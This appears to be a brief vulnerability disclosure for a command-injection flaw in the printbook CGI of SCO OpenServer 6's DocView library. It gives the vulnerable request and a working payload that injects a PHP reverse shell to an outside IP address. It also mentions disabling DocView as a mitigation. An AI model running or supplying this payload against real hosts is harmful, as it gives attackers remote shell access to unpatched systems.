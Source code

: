 

**Responsible Disclosure Was Attempted.**


It was discovered that the printbook functionality within the DocView CGI library was vulnerable to a pipe parameter bypass, allowing an attacked to execute arbitrary system commands.
For some reason this ancient attack technique is still present within some older operating systems.

Tested on SCO OpenServer 6, however the printbook.cgi is still present within newer versions of OpenServer so im'a guess that the issue is still present. OpenServer is a little weird, its a unix based OS but dont expect most of the usual shells/tools to work.

Theres no official patch on fixing this however if you disable the DocView function you should be good.

![RCE Against SCO-OpenServer6](https://i.imgur.com/pzCZS3M.png)

Affected parameter and URL decoded payload:

 - /cgi-bin/printbook?booktitle=216409&toclevels=1&part=%2fen%2fOSR_FEATS%2fCONTENTS.html&outputform=pdf[VULN]
 - || php -r '$sock=fsockopen("10.165.34.103",4242);exec("/bin/sh -i <&3 >&3 2>&3");' &


